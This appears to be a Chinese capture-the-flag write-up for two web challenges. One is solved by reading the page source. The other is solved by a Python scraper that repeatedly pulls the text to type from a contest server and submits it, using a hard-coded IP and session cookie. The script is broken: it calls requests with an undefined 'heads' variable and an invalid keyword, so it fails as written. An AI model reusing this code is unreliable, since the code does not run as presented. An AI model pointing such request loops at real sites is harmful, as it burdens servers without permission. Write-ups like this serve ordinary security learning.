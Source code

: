 

## WEB

### 1. NO COPY

点进去，发现flag直接告诉你了，但是复制不了

直接查看源码，把源码复制下来，再去除其中的杂七杂八的东西，很容易得到flag

### 2. typing train

点进网页

![](https://s1.ax1x.com/2022/11/07/xjHDzj.png)

点击开始

![](https://s1.ax1x.com/2022/11/07/xjHBWQ.png)


查看源码

![](https://s1.ax1x.com/2022/11/07/xjHsQs.png)

发现要typing的内容甚至可以直接在源码里找到

写一个Python爬虫，循环爬取

```python
import requests
import re

url = "http://124.220.41.254:20002/index.php?start"

headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PHPSESSID=c6002ca2024fc388a7474942f03a3bee'}

res = requests.get(url,heads=heads)

if res.status_code == 200:
    raw_text = res.text
    print(raw_text)
    re_res = re.findall(r'<h1 class="typing">(.*)</h1>', raw_text,re.DOTALL)
    s=re_res[0]
    print(s)
    s = s.replace('\n', '')
    s = s.replace('\0', '')
    
    
for i in range(0,6667):
    url = "http://124.220.41.254:20002/index.php?input="+s
    res = requests.get(url,heads=heads)
    if res.status_code == 200:
    	raw_text = res.text
    	re_res = re.findall(r'<h1 class="typing">(.*)</h1>', raw_text,re.DOTALL)
    	s = re_res[0]
    	s = s.replace('\n', '')
    	s = s.replace('\0', '')
    	print(raw_text)

```
